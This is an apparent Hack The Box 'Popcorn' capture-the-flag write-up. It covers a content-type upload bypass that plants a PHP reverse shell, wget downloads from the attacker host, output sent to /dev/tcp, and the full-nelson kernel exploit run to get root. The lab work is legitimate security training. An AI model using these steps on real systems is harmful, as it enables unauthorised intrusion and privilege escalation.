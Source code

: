 ```yaml
---
description: >-
  The moment you accept things as they are, you don’t need to hope anymore,
  because you realize where you are is kind of okay. - Jason Louv
icon: popcorn
---
```


# Hack The Box - Popcorn Writeup

As usual, we start off with a lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.45.92 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 22:19 EDT
Nmap scan report for popcorn.htb (10.129.45.92)
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.92 seconds
```

This is a web box, and as usual, we have 80 and 22 open. After adding popcorn.htb to my hosts file, we go check out the website:

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Looks like some kind of Torrent website. There is a login page, and a signup page. Let's go ahead and make an account:

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We login and see some options:

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

The most obvious option of interest is the upload functionality:

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can see that this website utilizes php, so we will try uploaded a php shell. We will utilize pentestmonkeys reverse shell: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

When trying to upload the php file straight, it does not let us:

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

I tried many different variations, but the upload functionality seems very strict. I even tried tampering with a legitimate torrent a little bit, and it would not take it. So I grabbed a perfectly valid torrent file online and uploaded it:

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

After poking around a little, I find another interesting place to upload files. You can upload a screenshot for your torrent after uploading:

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

All I had to do was tinker with the content-type header, and it took it, no problem:

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

After refreshing the web page, nothing happened at first. However, after clicking on the "Image File Not Found" picture/button, it attempts to expand the "picture", and triggers our paylaod:

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444    
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.45.92] 57357
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 05:44:06 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Let's run some linpeas. I want the color, so I pipe the contents back to my netcat:

```
www-data@popcorn:/var/www/.ssh$ wget http://10.10.16.5/linpeas.sh
wget http://10.10.16.5/linpeas.sh
--2025-05-31 06:05:18--  http://10.10.16.5/linpeas.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [text/x-sh]
Saving to: `linpeas.sh'

100%[======================================>] 840,139      527K/s   in 1.6s    

2025-05-31 06:05:20 (527 KB/s) - `linpeas.sh' saved [840139/840139]

www-data@popcorn:/var/www/.ssh$ echo $SHELL
echo $SHELL
/bin/sh
www-data@popcorn:/var/www/.ssh$ /bin/bash
/bin/bash
www-data@popcorn:/var/www/.ssh$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@popcorn:/var/www/.ssh$ ./linpeas.sh > /dev/tcp/10.10.16.5/4445
```

```
┌──(kali㉿kali)-[~/tools]
└─$ nc -nvlp 4445     
listening on [any] 4445 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.45.92] 41142



                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

```

The output gives an insane amount of OS vulnerabilities, which it is likely vulnerable to multiple. I parsed it down to choose one that had a date labeled prior to the release of the box (2017), and landed on:

```
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson                                                         

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c
```

After grabbinb it, compiling on the box, and running it:

```
www-data@popcorn:/var/www/.ssh$ wget http://10.10.16.5/nelson.c
wget http://10.10.16.5/nelson.c
--2025-05-31 06:11:11--  http://10.10.16.5/nelson.c
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9124 (8.9K) [text/x-csrc]
Saving to: `nelson.c'

100%[======================================>] 9,124       --.-K/s   in 0.09s   

2025-05-31 06:11:12 (104 KB/s) - `nelson.c' saved [9124/9124]

www-data@popcorn:/var/www/.ssh$ chmod +x nelson.c
chmod +x nelson.c
www-data@popcorn:/var/www/.ssh$ gcc nelson.c -o nelson
gcc nelson.c -o nelson
www-data@popcorn:/var/www/.ssh$ ./nelson
./nelson
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf841d280
 [+] Resolved econet_ops to 0xf841d360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# id
id
uid=0(root) gid=0(root)
# cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# cd /root
ls
cd /root
ls
# root.txt
# cat root.txt
cat root.txt
7a95f77DEADBEEF31c73bb346a83ddf2
```

This was actually a very easy box. The upload bypass was not tricky, and privilege escalation was also very easy. However, I still find the easy boxes a lot of fun, as they can offer a good change of pace. They also get you to touch back on more basic skills that the more difficult boxes will likely not employ.
